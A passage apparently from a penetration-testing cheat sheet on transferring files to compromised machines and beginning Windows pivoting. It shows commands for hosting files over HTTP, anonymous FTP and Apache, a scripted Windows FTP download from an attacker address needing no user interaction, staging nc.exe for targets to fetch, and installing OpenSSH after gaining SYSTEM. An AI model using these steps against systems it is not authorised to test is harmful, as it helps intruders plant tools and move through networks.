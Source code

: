 ```shell
python -m http.server
```

Creating a server with python2

```shell
python -m SimpleHTTPServer 80
```

#### FTP

You need to create a FTP server

- Server Linux
  Allow anonymous

```shell
python -m pyftpdlib -p 21 -u anonymous -P anonymous
```

- Windows Client

```shell
ftp
open target_ip port
open 192.168.1.22 21
```

we can simply run ftp -s:ftp_commands.txt and we can download a file with no user interaction.

like this:

```shell
C:\Users\kitsunesec\Desktop>echo open 10.9.122.8>ftp_commands.txt
C:\Users\kitsunesec\Desktop>echo anonymous>>ftp_commands.txt
C:\Users\kitsunesec\Desktop>echo whatever>>ftp_commands.txt
C:\Users\kitsunesec\Desktop>ftp -s:ftp_commands.txt
```

#### Apache Server

- server
  Put your files into /var/www/html

```shell
cp nc.exe /var/www/html
systemctl start apache2
```

- client

Get via web browser, wget or powershell...

### Windows Pivoting

#### Openssh for Tunneling

Once you got SYSTEM on the target machine. download: [openssh_for_windows](https://github.com/PowerShell/Win32-OpenSSH/releases)
